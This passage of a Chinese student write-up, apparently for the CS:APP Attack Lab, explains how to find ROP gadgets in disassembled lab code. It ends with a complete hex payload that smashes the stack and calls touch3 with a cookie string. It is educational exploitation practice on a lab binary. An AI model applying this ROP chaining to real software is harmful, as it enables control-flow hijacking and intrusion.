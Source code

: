 首先，我们要找能够接收rsp的寄存器，也就是形如”movq rsp x“的指令（48 89 e0~7），发现只有”48 89 e0“。这里我们依然挑选最干净的第一项，它后面直接跟着c3，得到0x401a06。

```
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq

0000000000401a47 <addval_201>:
  401a47:	8d 87 48 89 e0 c7    	lea    -0x381f76b8(%rdi),%eax
  401a4d:	c3                   	retq

0000000000401a5a <setval_299>:
  401a5a:	c7 07 48 89 e0 91    	movl   $0x91e08948,(%rdi)
  401a60:	c3                   	retq
```

然后，我们要找到能将该地址和偏移地址加起来的函数，我找了半天没发现add，但找到了另一个更贴切的add_xy，直接用这整个函数即可，得到0x4019d6。

```
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq
```

但是我们发现它只接收rdi和rsi，于是我又慢慢去找二者相关的movq或movl函数，因为涉及到中间变量相互传值，所以这是个漫长而乏味的过程。总之，最后找到了符合目标的一组传值过程，然后将之前总结的细化一下。

```
1.movq rsp rax 此时rsp指向2.
2.movq rax rdi
3.pop eax
4.偏移值=10-1=9层（字符串还被9条指令压着呢）所以9x8=72字节
5.movl eax edx
6.movl edx ecx
7.movl ecx esi
8.lea (rdi, rsi, 1) rax
9.movq rax rdi
10.touch3
11.字符串
```

其中需要注意的细节就是q和l后缀，rsp地址是64位的必须要用movq，而偏移量显然可以用32位传递，于是拓展到movl。

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 40个空白字符 */
06 1a 40 00 00 00 00 00 /* mov rsp rax */
c5 19 40 00 00 00 00 00 /* mov rax rdi 4019c3+2 */
ab 19 40 00 00 00 00 00 /* pop rax */
48 00 00 00 00 00 00 00 /* 偏移72=0x48 */
dd 19 40 00 00 00 00 00 /* mov eax edx 89 c2 4019db+2 */
70 1a 40 00 00 00 00 00 /* mov edx ecx 89 d1 401a6e+2 */
63 1a 40 00 00 00 00 00 /* mov ecx esi 89 ce 401a61+2 */
d6 19 40 00 00 00 00 00 /* lea (rdi, rsi, 1) rax 4019d6 */
c5 19 40 00 00 00 00 00 /* mov rax rdi */
fa 18 40 00 00 00 00 00 /* touch3入口 4018fa */
35 39 62 39 39 37 66 61 /* 字符串，注意用00结尾 */
00
```
